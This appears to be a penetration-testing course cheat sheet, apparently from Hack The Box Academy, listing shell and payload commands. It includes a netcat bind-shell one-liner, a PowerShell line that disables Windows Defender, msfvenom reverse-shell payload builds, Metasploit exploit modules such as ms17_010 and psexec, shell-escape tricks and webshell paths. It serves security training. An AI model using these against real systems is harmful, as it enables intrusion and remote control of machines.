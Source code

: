 # Shells and Payloads  
  
List of types of reverse shells and payloads to use for different scenarios and targets:  
  
| Tool              | Description |  
| ----------------- | ----------- |  
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!` | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol. |  
| `env` | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use. |  
| `sudo nc -lvnp <port #>` | Starts a `netcat` listener on a specified port |  
| `nc -nv <ip address of computer with listener started><port being listened on>` | Connects to a netcat listener at the specified IP address and port |  
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f \| /bin/bash -i 2>&1 \| nc -l 10.129.41.200 7777 > /tmp/f` | Uses netcat to bind a shell (`/bin/bash`) the specified IP address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on |  


| `Set-MpPreference -DisableRealtimeMonitoring $true` | PowerShell command using to disable real time monitoring in `Windows Defender`. |  



| `use exploit/windows/smb/psexec` | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing `smb` & `psexec` |  
| `shell` | Command used in a meterpreter shell session to drop into a `system shell` |  
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf` | `MSFvenom` command used to generate a linux-based reverse shell `stageless payload`. |  
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe` | MSFvenom command used to generate a Windows-based reverse shell stageless payload |  



| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho` | MSFvenom command used to generate a MacOS-based reverse shell payload |  
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp` | MSFvenom command used to generate a ASP web reverse shell payload |  
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp` | MSFvenom command used to generate a JSP web reverse shell payload |  
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war` | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload |  
| `use auxiliary/scanner/smb/smb_ms17_010` | Metasploit exploit module used to check if a host is vulnerable to `ms17_010` |  
| `use exploit/windows/smb/ms17_010_psexec` | Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17_010 |  
| `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce` | Metasploit exploit module that can be used to obtain a reverse shell on a vulnerable Linux system hosting `rConfig 3.9.6` |  



| `python -c 'import pty; pty.spawn("/bin/sh")'` | Python command used to spawn an `interactive shell` on a linux-based system |  
| `/bin/sh -i` | Spawns an interactive shell on a linux-based system |  
| `perl —e 'exec "/bin/sh";'` | Uses `perl` to spawn an interactive shell on a linux-based system |  
| `ruby: exec "/bin/sh"` | Uses `ruby` to spawn an interactive shell on a linux-based system |  
| `Lua: os.execute('/bin/sh')` | Uses `Lua` to spawn an interactive shell on a linux-based system |  
| `awk 'BEGIN {system("/bin/sh")}'` | Uses `awk` command to spawn an interactive shell on a linux-based system |  
| `find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;` | Uses `find` command to spawn an interactive shell on a linux-based system |  
| `find . -exec /bin/sh \; -quit` | An alternative way to use the `find` command to spawn an interactive shell on a linux-based system |  
| `vim -c ':!/bin/sh'` | Uses the text-editor `VIM` to spawn an interactive shell. Can be used to escape "jail-shells" |  
| `ls -la <path/to/fileorbinary>` | Used to `list` files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute |  
| `sudo -l` | Displays the commands that the currently logged on user can run as `sudo` |  
| `/usr/share/webshells/laudanum` | Location of `laudanum webshells` on ParrotOS and Pwnbox |  
| `/usr/share/nishang/Antak-WebShell` | Location of `Antak-Webshell` on Parrot OS and Pwnbox |  
